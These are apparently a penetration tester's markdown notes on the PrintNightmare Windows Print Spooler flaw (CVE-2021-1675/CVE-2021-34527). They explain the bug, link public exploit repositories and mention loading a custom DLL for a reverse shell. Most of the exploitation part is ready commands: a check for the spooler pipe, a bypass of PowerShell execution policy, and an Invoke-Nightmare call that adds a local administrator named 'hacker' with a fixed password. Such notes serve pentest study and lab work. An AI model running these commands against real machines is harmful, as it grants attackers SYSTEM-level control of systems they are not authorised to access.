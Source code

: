 ## PrintNightmare CVE-2021-1675/CVE-2021-34527

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` - 
**Vuln:** Flaw in `RpcAddPrinterDriver` (Print Spooler API).  
- **Intended:** Only users with `SeLoadDriverPrivilege` (Admins, Print Operators) can remotely install printer drivers.  
- **Bug:** Any **authenticated user** could add a driver → load malicious DLL.  
- **Result:** **PRIVESC TO SYSTEM** 
## exploitation
- The repo below contains a C# implementation. try it first
- [This](https://github.com/cube0x0/CVE-2021-1675)  cube-ctl remotely but requires modified impacket.
- This [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) : this script adds a new local admin user, but we can also supply a custom DLL to obtain a reverse shell or similar if adding a local admin user is not in scope.

`checking if spooler service is running`
```
ls \\localhost\pipe\spoolss
```
![](Pasted%20image%2020250320205627.png)
#### Adding Local Admin with PrintNightmare PowerShell PoC

```powershell-session
Set-ExecutionPolicy Bypass -Scope Process
 Import-Module .\CVE-2021-1675.ps1
 Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

`confirm`
```
net user <user>
```

